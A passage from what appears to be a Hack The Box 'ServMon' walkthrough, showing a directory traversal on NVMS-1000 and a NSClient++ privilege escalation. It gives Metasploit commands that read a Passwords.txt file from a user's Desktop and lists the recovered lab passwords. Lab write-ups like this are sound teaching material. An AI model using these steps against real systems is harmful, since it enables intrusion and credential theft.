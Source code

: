 ![Desktop View]({{ "/assets/img/servmon/HTB-Images-Servmon-note1.png" | relative_url }})

**Nathan note :**

![Desktop View]({{ "/assets/img/servmon/HTB-Images-Servmon-note2.png" | relative_url }})


### Websites on port 80 and 8443
***

**Port 80 :** We have login page of `NVMS-1000` service.

![Desktop View]({{ "/assets/img/servmon/HTB-Images-Servmon-nvms1000.png" | relative_url }})

`Directory Traversal` is possible on NVMS-1000. Reference : <https://www.exploit-db.com/exploits/48311>

![Desktop View]({{ "/assets/img/servmon/HTB-Images-Servmon-searchsploit.png" | relative_url }})

**Port 8443 :** We have another service, named `NSClient++`. But the page seem to be break ...

![Desktop View]({{ "/assets/img/servmon/HTB-Images-Servmon-nsclientbreak.png" | relative_url }})

`Privilege Escalation` is possible on NSClient++ 0.5.2.35 : <https://www.exploit-db.com/exploits/46802>

![Desktop View]({{ "/assets/img/servmon/HTB-Images-Servmon-msfv.png" | relative_url }})

The Nadine note reference about a file named `Passwords.txt` present on the Desktop of Nathan user.
We use the first vulnerabilitie on NVMS-1000 to grab this file and gained the foothold.

## **<span style='color:#c0392b'>[2] Foothold - Get into the target </span>**
### Directory Traversal
***
Let's start metasploit to use the exploit module.

![Desktop View]({{ "/assets/img/servmon/HTB-Images-Servmon-confdt.png" | relative_url }})

```terminal
$ msfconsole
msf5 > search nvms
msf5 > use auxiliary/scanner/http/tvt_nvms_traversal
msf5 auxiliary(scanner/smb/smb_login) > set RHOSTS 10.10.10.184
msf5 auxiliary(scanner/smb/smb_login) > set FILEPATH 'Users\Nathan\Desktop\Passwords.txt'
msf5 auxiliary(scanner/smb/smb_login) > exploit
```

We reveal much password in the file : `1nsp3ctTh3Way2Mars!`, `Th3r34r3To0M4nyTrait0r5!`, `B3WithM30r4ga1n5tMe`, `L1k3B1gBut7s@W0rk`, `0nly7h3y0unGWi11F0l10w`, `IfH3s4b0Utg0t0H1sH0me`,  `Gr4etN3w5w17hMySk1Pa5$`
